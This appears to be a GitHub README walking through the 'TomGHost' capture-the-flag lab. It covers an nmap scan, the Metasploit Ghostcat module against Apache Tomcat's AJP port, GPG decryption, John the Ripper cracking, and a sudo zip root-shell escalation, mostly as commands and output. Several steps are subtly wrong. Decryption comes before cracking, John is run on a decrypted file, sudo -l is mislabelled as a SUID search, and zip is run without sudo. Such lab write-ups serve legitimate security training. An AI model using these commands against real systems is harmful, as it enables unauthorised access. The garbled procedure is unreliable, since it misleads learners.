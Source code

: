 # Comprehensive Guide: TomgHost 🚀

![TomGHost](tomghost.jpeg)

**Introduction**:
Embark on a challenge, exploring various stages from initial connection to privilege escalation, ensuring confidentiality and safety online. This journey involves interacting with a virtual environment, reconnaissance, and employing techniques for accessing restricted information while adhering to ethical guidelines.

**🔗 Command Breakdown & Execution**:

### 🌐 Deploying the Machine
1. **Connect to VPN**: Initiate a secure connection to access the challenge environment.
   - **Command**: `sudo openvpn yourvpnconfig.ovpn`
   - **Attributes**:
     - `yourvpnconfig.ovpn`: Your specific VPN configuration file.

### 🔍 Reconnaissance

**Step 1**: Information Gathering
- **Command**: `nmap -sC -sV -Pn <Target-IP>`
- **Attributes**:
  - `-sC`: Default script scanning.
  - `-sV`: Service version detection.
  - `-Pn`: Treats all hosts as online (skips host discovery).
  - `<Target-IP>`: The IP address of the target machine.

  ```bash
    22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
    |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
    |_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
    53/tcp   open  tcpwrapped
    8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http       Apache Tomcat 9.0.30
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.30

  ```

### 🛠️ Gaining Access

**Identifying Weaknesses**:
- Engage with Metasploit to pinpoint and exploit Apache Tomcat AJP flaws.
  - **Procedure**:
    - Initiate Metasploit: `msfconsole`
    - Module Hunt: `search Apache Jserv`
    - Activate Module: `use auxiliary/admin/http/tomcat_ghostcat`
    - Define Victim: `set RHOSTS <Target-IP>`
    - Launch Attack: `run`
  - **Details**:
    - `RHOSTS`: Target machine's IP.
  - **Output**: Reveals crucial data, enabling further actions:
    ```bash
        scp skyfuck@<Target-IP>:/path/to/file /local/path
    ```

**Decrypting Secrets**:
- Import key and decrypt sensitive information for deeper insight.
  - **Steps**:
    1. Import Encryption Key: 
        ```bash
            gpg --import tryhackme.asc
        ```
    2. Decrypt Information: 
        ```bash
            gpg --decrypt credential.pgp > decrypted_credentials.txt
        ```
    3. Cracking Passphrase: 
       ```bash
            john --wordlist=/usr/share/wordlists/rockyou.txt decrypted_credentials.txt`
       ```
       
### 🔑 Privilege Escalation

**Step 4**: Elevating Privileges
1. **Identifying SUID Files**: Search for files with unusual SUID permissions.
   ```bash
        sudo -l
        Matching Defaults entries for merlin on ubuntu:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User merlin may run the following commands on ubuntu:
            (root : root) NOPASSWD: /usr/bin/zip
   ```
2. **Escalating Privileges**: Utilize unusual permissions for escalating access.
    ```bash
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
    ```

**Conclusion**:

This guide illustrates a structured approach to ethical hacking, emphasizing command execution, attribute understanding, and the significance of security practices.